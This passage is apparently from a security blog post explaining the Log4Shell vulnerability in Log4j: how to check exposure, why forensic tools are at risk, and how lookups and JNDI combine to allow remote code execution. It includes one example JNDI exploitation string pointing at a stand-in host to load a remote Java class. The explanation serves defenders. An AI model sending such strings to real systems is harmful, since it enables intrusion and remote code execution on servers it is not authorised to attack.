 As a user, there's no easy way to find it out. In this case it's best to trust your service provider, which is of course not optimal. Many bounty hunters and white hat hackers are trying to inject the exploit code everywhere to find out which services are vulnerable. At the moment internet is full of exploitation attempts and it's impossible to say which are attempts are malicious and not.

As an organization, try to find Log4j installations from your infra. And check this [list by NCSC-NL](https://github.com/NCSC-NL/log4shell/tree/main/software) to check status of the products you use!

As a side note, many forensics and blue team tools have been identified or rumored to be vulnerable. These tools include Carbon Black, ~~Splunk, IBM Qradar~~ [1], Autopsy, and Cellebrite. Imagine investigating evidence that contains the exploitation code and your forensic environment allows malicious actor in. This is good reminder why you should always do forensics without and internet access.

[1] These products are not vulnerable to Log4Shell. However, Qradar has vulnerable plugins and Splunk has vulnerable connectors.

## The vulnerability

The vulnerability is consequence of three different features or vulnerabilities in the Log4j:

1. Root cause of the vulnerability is lack of improper input validation (CWE-20). Basically user can input any string to the application and if the application is set to log for example requested URIs, the URI will end up to Log4j logger without any sanitation.

2. The Log4j happens to have lookup feature (yes, it's a feature introduced in version log4j-2.0-beta9), which allows requesting variables from the system running the Log4j component. This feature can be called from Log4j using `${variable_here}` You can request for example username on a Linux system by providing string `${env:USER}` to Log4j, and it will log the username from environment variable user and the value is the running the application.

3. Now we get to the interesting part... :D Java runtime has a [Java Naming and Directory Interface (JNDI)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) which can be used to discover and look up data from remote endpoints. This feature can be called from Log4j by using the lookup method and adding `jndi` string to the lookup command: `${jndi:method:remoteaddress}`. JNDI allows multiple methods for the look-up: LDAP, DNS, NIS, NDS, RMI, and CORBA, which means we can use any of these methods to look up more data from a remote endpoint. Oh, and the best thing is that JNDI is not a new attack vector, it was [introduced in BHUSA 2016](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf).

If we hosted our malicious Java class in `example.dfir.fi:4444/legit`, our exploitation string would be `${jndi:ldap:example.dfir.fi:4444/legit}`. Inputting this string to vulnerable application would cause the server to look up and execute our Java class hosted on our server.

If you are more interested how the vulnerability works, I suggest you to read [this write-up by Paul Ducklin](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) of Sophos.

## Version confusion and fixing the vulnerability

First of all, I've seen a lot of arguments that "we are not vulnerable as we use Log4j 1.X". This is true *when we talk about Log4shell* as Log4j 1.X is not vulnerable to this issue. Log4j 1.X however has many other issues, like CVE-2019-178571 in versions 1.2.X. CVE-2019-17571 has also [public PoC](https://0xsapra.github.io/website/CVE-2019-17571).

{{< twitter user="GossiTheDog" id="1469250605826850819" >}}
